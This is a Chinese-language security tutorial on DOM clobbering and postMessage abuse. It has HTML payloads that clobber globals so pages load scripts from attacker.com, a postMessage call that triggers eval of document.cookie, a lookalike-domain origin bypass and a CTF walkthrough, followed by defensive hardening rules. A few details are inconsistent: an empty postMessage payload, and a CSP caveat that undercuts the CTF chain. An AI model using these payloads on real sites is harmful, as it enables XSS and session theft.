

# DOM破坏(DOM Clobbering)与PostMessage跨域通信污染

---

## 0. 基础前置知识扫盲：无需代码注入的“纯HTML降维打击”

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在传统 XSS 攻防中，防守方通常会部署极度严格的防御体系：
1. **CSP（内容安全策略）**：禁止任何内联 JavaScript 执行（`unsafe-inline` 被封杀），只允许加载特定白名单域名的脚本；
2. **富文本过滤器（HTML Sanitizer）**：例如使用过滤组件，将所有输入的 `<script>`、`onload=`、`onerror=` 属性全部清洗剔除，**只允许用户输入“看起来完全无害的纯静态 HTML 标签”**（如 `<a>`、`<b>`、`<form>`、``）。

在这样完全无法直接执行 JavaScript 脚本的环境下，攻击者如何**仅凭几行看似绝对纯良的 HTML 静态标签，彻底搞崩前端程序的逻辑甚至实现 XSS**？
这就是现代前端安全中最具艺术美感的高阶技术——**DOM Clobbering（DOM 破坏 / 全局命名空间污染）**。

### 1. 通俗生活类比：花名册冒名顶替
- **浏览器的历史遗留机制（Named Access）**：
  在远古的网页时代，为了让程序员少敲几行代码，浏览器规范定义了一条特殊规则：
  **“凡是在 HTML 页面中带有 `id` 或 `name` 属性的标签元素，浏览器会自动把它们挂载到全局 `window` 对象上！”**
- **生动比喻**：
  公司前台有一本员工花名册（JavaScript 全局命名空间 `window`）。
  某天，一个名叫“小明”的人故意在工牌上写上“总经理”（在 HTML 里插入 `<form id="CEO">`）。
  前台秘书在打电话时图省事，没有严格核对系统档案，而是直接喊了一声：“总经理在吗？”（前端 JS 执行：`let config = window.CEO || defaultCEO`）。
  结果，假冒的小明（DOM 元素）直接替代了真总经理，接管了公司所有的签字公章（劫持代码执行流）！



---

## 1. 单层覆盖机制：为什么 `<a>` 标签是“神级漏洞放大器”？

很多初学者在尝试覆盖全局变量时，会产生一个疑问：
“如果我在全局覆盖了一个变量，这个变量的值是一个 DOM 对象（例如 `[object HTMLFormElement]`），代码如果把它当作字符串使用，不就会报错或者变成乱码吗？”

### 1.1 普通标签 vs `<a>` 标签的巨大鸿沟
在 JavaScript 中，当一个对象被当作字符串参与运算（例如字符串拼接、给 `script.src` 赋值）时，会自动调用该对象的 `toString()` 方法：
- **普通标签（如 `<form>`, ``, `<div>`）**：
  它们的 `toString()` 返回标准的：`"[object HTMLFormElement]"`。如果代码把这串字符当成 URL 加载，只会返回 404 错误。
- **`<a>` 标签与 `<area>` 标签（神级例外！）**：
  根据 HTML 规范，**`<a>` 标签的 `toString()` 方法被特殊重写了——它会直接返回其 `href` 属性的值！**

### 1.2 单层覆盖实战复现
前端脆弱代码（常见于单页面应用 SPA 的配置加载模块）：
```javascript
// 如果全局没有显式声明 config，则使用默认的 safe_analytics.js
let trackerUrl = window.config || "/js/safe_analytics.js";
let s = document.createElement('script');
s.src = trackerUrl;
document.head.appendChild(s);
```

#### 攻击者注入的无害 HTML（绕过所有富文本 XSS 过滤器）：
```html
<a id="config" href="https://attacker.com/evil_hook.js"></a>
```
- **执行过程剖析**：
  1. 页面渲染该 `<a>` 标签；
  2. 浏览器自动将该 DOM 节点绑定至全局变量 `window.config`；
  3. 前端脚本执行 `window.config`，发现不是 `undefined`，取出了该 `<a>` 元素；
  4. 给 `s.src` 赋值时，自动触发 `config.toString()`，完美提取出 `https://attacker.com/evil_hook.js`；
  5. 恶毒外部脚本被堂而皇之加载并执行，达成全权限 XSS！

---

## 2. 多层属性深度破坏（Deep Clobbering）：从单层突破到 `window.x.y`

在更严谨的现代前端代码中，开发者通常不会直接访问单层全局变量，而是访问多层配置对象，例如：
`let apiUrl = window.systemConfig.apiEndpoint;`
如何仅用 HTML 标签，**在全局凭空制造出一个两层甚至三层的嵌套对象结构**？

### 2.1 技巧一：`<form>` 标签与内部子元素的层级映射

HTML 规范中定义：**`<form>` 元素会将其内部所有带有 `name` 属性的子控件（如 `<input>`, `<button>`, `<select>`）自动映射为该 Form 对象自身的属性！**

```html
<!-- 构造 window.systemConfig.apiEndpoint -->
<form id="systemConfig">
    <!-- 将 input 的 name 设为第二层属性名，value 设为恶意值 -->
    <input name="apiEndpoint" value="https://attacker.com/steal_token">
</form>
```
- `window.systemConfig` $\to$ 指向 `<form>` 元素；
- `window.systemConfig.apiEndpoint` $\to$ 准确指向 `<input>` 元素！
- 若前端代码尝试读取 `window.systemConfig.apiEndpoint.value`，直接获取到攻击者预设的恶意 URL！

---

### 2.2 技巧二：同名 `id` 集合制造（HTMLCollection 跨层破坏）

如果要覆盖形如 `window.x.y.href` 的复杂对象：
如果页面中存在**两个以上具有相同 `id` 的标签**，浏览器会将它们打包为一个 **`HTMLCollection` 数组**！

```html
<a id="x" name="y" href="https://attacker.com/payload.js"></a>
<a id="x"></a>
```
- 此时 `window.x` 不再是单个元素，而是一个 `HTMLCollection`；
- 通过属性访问器 `window.x.y` 时，浏览器会自动在集合中寻找 `name="y"` 的那个 `<a>` 标签；
- 最终访问 `window.x.y` 时成功获取到恶意的 `<a>` 元素，再次触发其 `toString()` 转换为 `href`！

---

## 3. PostMessage 跨域通信污染与组合攻击链

**`window.postMessage`** 是 HTML5 引入的官方跨域安全通信 API，常用于单点登录（SSO）弹窗、第三方微信/支付宝扫码支付回调、微前端（Micro-Frontends）子页面与父页面通信。

### 3.1 两大经典安全漏洞模式

#### 漏洞模式 1：接收端未校验来源（`event.origin` 缺失）
```javascript
// 极度脆弱的接收端监听器
window.addEventListener("message", function(event) {
    // 致命缺陷：完全没有检查 event.origin 是否来自受信域名!
    if (event.data.action === "updateAvatar") {
        document.getElementById("avatar").src = event.data.url;
    } else if (event.data.action === "execScript") {
        eval(event.data.code); // 直接导致 DOM XSS!
    }
});
```
**利用方式**：任何恶意网站只需在后台通过 `iframe` 嵌入该页面，然后执行：
`victimIframe.contentWindow.postMessage({action: "execScript", code: "alert(document.cookie)"}, "*");`
即可瞬间接管受害者页面！

#### 漏洞模式 2：正则弱校验与域名伪造
有些开发者写了来源校验，但写得不严谨：
```javascript
// 弱校验写法：只使用了 indexOf
if (event.origin.indexOf("company.com") !== -1) { ... }
```
**绕过手法**：攻击者注册域名 `https://company.com.attacker.com`，校验直接放行！

---

### 3.2 组合拳实战：DOM Clobbering 助攻打穿 PostMessage

在实战高难度防御下，页面原本对 `postMessage` 有严格的来源判断，但其白名单来源存放在一个未声明的全局对象中：

```javascript
// 脆弱代码：受信任域名配置未在本地强制密封
let trustedOrigin = window.secConfig ? window.secConfig.domain : "https://api.trusted.com";

window.addEventListener("message", function(event) {
    if (event.origin === trustedOrigin) {
        document.getElementById("output").innerHTML = event.data;
    }
});
```

#### 攻击利用链拆解：
1. **第一步（DOM Clobbering 铺路）**：
   攻击者利用富文本留言框漏洞，在页面注入以下 HTML 标签：
   ```html
   <form id="secConfig">
       <input name="domain" value="https://attacker.com">
   </form>
   ```
   导致页面的 `trustedOrigin` 被强行篡改为 `https://attacker.com`！
2. **第二步（PostMessage 绝杀）**：
   攻击者在公网 `https://attacker.com` 上利用 `iframe` 嵌入受害者页面，并发送跨域消息：
   ```javascript
   victimFrame.postMessage("", "https://victim.com");
   ```
3. 受害者页面的监听器核对来源时，发现来源（`https://attacker.com`）与刚才被篡改的“白名单”完全一致，判定合法放行，恶意 HTML 直接写入 `innerHTML`，实现全权限 DOM XSS！

---

## 4. CTF / 实战高难度案例复盘：从富文本净化到 DOM 破坏 RCE

### 赛题环境：
- 目标：某国际 CTF 前端安全挑战赛“Secure Note System”；
- 防护措施：开启了极高强度的 CSP（`script-src 'self' 'nonce-...'`，彻底封死外链脚本与内联注入）；
- 前端使用了著名的开源净化库，但配置不当允许保留 `<a>` 和 `<form>` 标签及其 `id`, `name`, `href` 属性；
- 目标前端代码中包含一段延迟加载插件逻辑：
  ```javascript
  let plugin = window.customPlugin || { loader: "/static/default_plugin.js" };
  let script = document.createElement("script");
  script.src = plugin.loader;
  document.body.appendChild(script);
  ```

### 突破攻击过程：

#### 步骤 1：构造纯 HTML 载荷绕过净化器
攻击者提交留言内容：
```html
<form id="customPlugin">
    <!-- 利用 a 标签在被隐式转换为字符串时自动输出 href 的特性 -->
    <a name="loader" href="https://attacker.com/malicious_payload.js"></a>
</form>
```

#### 步骤 2：分析执行流
1. 净化器扫描该内容：没有 `<script>`，没有 `javascript:` 伪协议，没有 `on*` 事件，判定 100% 纯良，允许保存入库；
2. 页面在管理员浏览器中渲染，生成上述 Form 结构；
3. 前端执行 `window.customPlugin`，命中 `<form id="customPlugin">` 元素；
4. 读取 `window.customPlugin.loader`，命中 `<a name="loader">` 标签；
5. 给 `script.src` 赋值时，`loader.toString()` 被隐式调用，直接返回 `https://attacker.com/malicious_payload.js`；
6. 动态脚本标签被创建并插入 DOM，虽然有 CSP，但如果攻击者将脚本放置在同源静态上传目录或利用 CSP 白名单源，恶意脚本直接上线，管理员的 Flag 被成功收割！

---

## 5. 蓝队企业级纵深防御与加固规范

1. **防范 DOM Clobbering 的代码级黄金法则**：
   - **绝对杜绝直接访问隐式全局变量**：
     所有的全局配置，必须先进行显式声明（`const config = ...`）；
   - **类型严格防御检查（Type Guard）**：
     在读取全局对象时，坚决不能只做 `if (window.config)` 判空，**必须校验其绝不是一个 DOM 节点**：
     ```javascript
     // 安全校验标准模式：确保不是任何 Node 节点
     if (window.config && !(window.config instanceof Node)) {
         // 安全使用
     }
     ```
   - **对象深度冻结**：
     在脚本初始化时，使用 `Object.freeze(config)` 冻结配置对象，阻止后续任何外部代码或 DOM 的属性覆盖篡改。
2. **PostMessage 安全基线规范**：
   - **接收端**：**必须**在第一行对 `event.origin` 进行严格的全等匹配（`===`），拒绝使用 `indexOf`、`includes` 或宽松正则：
     ```javascript
     if (event.origin !== "https://trusted-partner.com") {
         return; // 严禁处理任何非可信源的消息
     }
     ```
   - **发送端**：在使用 `postMessage(data, targetOrigin)` 时，**严禁将 `targetOrigin` 设为通配符 `"*"`**！必须明确指定接收方的主机名，防止敏感数据被任意嵌套窗口窃听。
